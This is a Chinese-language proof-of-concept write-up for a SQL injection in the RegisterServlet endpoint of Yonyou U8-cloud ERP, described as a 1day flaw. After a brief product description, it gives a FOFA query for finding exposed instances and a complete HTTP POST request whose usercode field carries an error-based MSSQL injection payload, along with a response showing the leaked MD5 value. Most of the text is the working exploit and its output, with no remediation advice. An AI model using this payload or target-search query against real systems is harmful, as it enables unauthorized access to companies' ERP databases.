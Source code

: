 # 用友U8-cloud RegisterServlet接口存在SQL注入漏洞

## 用友U8-cloud RegisterServlet接口存在SQL注入漏洞
U8 Cloud是用友公司推出的企业上云数字化平台，为成长型和创新型企业提供全面的云ERP解决方案。

U8 cloud不同于传统的ERP，融合了交易、服务、管理于一体的整体解决方案。U8 cloud集中于企业内部管理管控，管理，规范、高效、协同、透明。通过云模式，低成本，快速部署，即租即用的帮助企业免除硬软件投入的快速搭建企业管理架构。通过云服务连接，业务模式、服务模式的经营创新。

该系统RegisterServlet接口存在SQL注入漏洞，并且属于1day状态。

## fofa
```
app="用友-U8-Cloud"
```

## poc
发送下面的poc，响应包返回123456 的md5为存在漏洞
```
POST /servlet/RegisterServlet HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Length: 85
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip

usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)>0--
```
返回
```
HTTP/1.1 200 OK
Connection: close
Content-Length: 71Date: Mon, 13 Nov 2023 02:25:54 GMT
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=F66A9268A74114BADA7CB11346378B11.server;
Path=/; HttpOnly
Error:?? nvarchar ? 'e10adc3949ba59abbe56e057f20f883e' ??????? int ????
```

